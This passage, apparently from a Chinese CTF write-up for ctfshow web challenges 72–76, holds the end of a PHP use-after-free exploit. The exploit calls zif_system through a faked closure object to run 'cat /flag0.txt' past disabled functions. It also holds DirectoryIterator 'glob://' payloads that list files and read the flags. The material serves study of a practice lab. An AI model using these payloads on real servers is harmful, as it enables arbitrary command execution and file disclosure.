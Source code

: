 ```php

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦

```



## 73、74-DirectoryIterator类

1. 使用72的poc，但是strlen()被禁用了，可以重写strlen，再利用uaf

2. scandir被禁用,使用DirectoryIterator类（无open_basedir）

   ```
   c=?><?php $a=new directoryiterator("glob:///*"); foreach($a as $f) {echo($f->__tostring().' '); } exit(0); ?>
   ```

    得到/flagc.txt，访问之：

   ```
   c=require('/flagc.txt');exit();
   ```



## 75、76-pdo-load_file

依然是扫描，得到flag36.txt

```
c=?><?php $a=new directoryiterator("glob:///*"); foreach($a as $f) {echo($f->__tostring().' '); } exit(0); ?>
```
